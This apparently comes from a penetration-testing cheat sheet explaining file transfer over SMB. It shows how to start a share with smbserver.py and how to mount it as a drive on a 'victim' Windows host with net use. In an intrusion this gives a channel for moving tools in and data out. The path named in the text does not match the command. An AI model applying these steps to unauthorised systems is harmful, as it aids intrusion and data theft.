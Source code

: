 # File transfer over SMB

## smbserver.py

Starting the server.

```text
smbserver.py myshare /tmp/myshare -smb2
```

This will share the `/tmp/smbshare` directory over smb as `myshare`.

### For more convenience, this SMB share can be mounted directly on the windows as a drive:

Check currently mounted shares by running `net use`

Mount your `myshare` as drive `Z` \(or any other letter\) using the command `net use Z: \\<IP>\myshare`Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.

The mount can be disconnected with command `net use Z: /d` and deleted with `net use Z: /delete` once you are done with it.

